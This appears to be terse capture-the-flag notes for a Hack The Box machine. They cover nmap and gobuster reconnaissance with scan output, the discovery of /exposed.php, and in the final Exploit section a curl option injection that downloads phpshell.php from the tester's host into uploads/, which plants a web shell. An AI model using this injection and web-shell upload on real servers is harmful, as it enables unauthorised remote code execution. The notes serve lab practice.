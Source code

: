 light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```



Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e975c1e4b3633c93f2c618083648ce36 (RSA)
|   256 8700aba98f6f4bbafbc67a55a860b268 (ECDSA)
|_  256 b61b5ca9265cdc61b775906c88516e54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser
```



## http enum

dir scan, found nothing.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip/ -o gobuster.log
```



scan with extension, php, found /exposed.php

```bash
# gobuster with extension.
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip/ -o gobuster.log -x php,html
```



/exposed.php,   no RFI.



exploit the exposed.php, (curl command)



# Exploit

```bash
## exploit -o options, upload shell
http://10.10.14.20/phpshell.php -o uploads/phpshell.php
http://localhost/uploads/phpshell.php

```

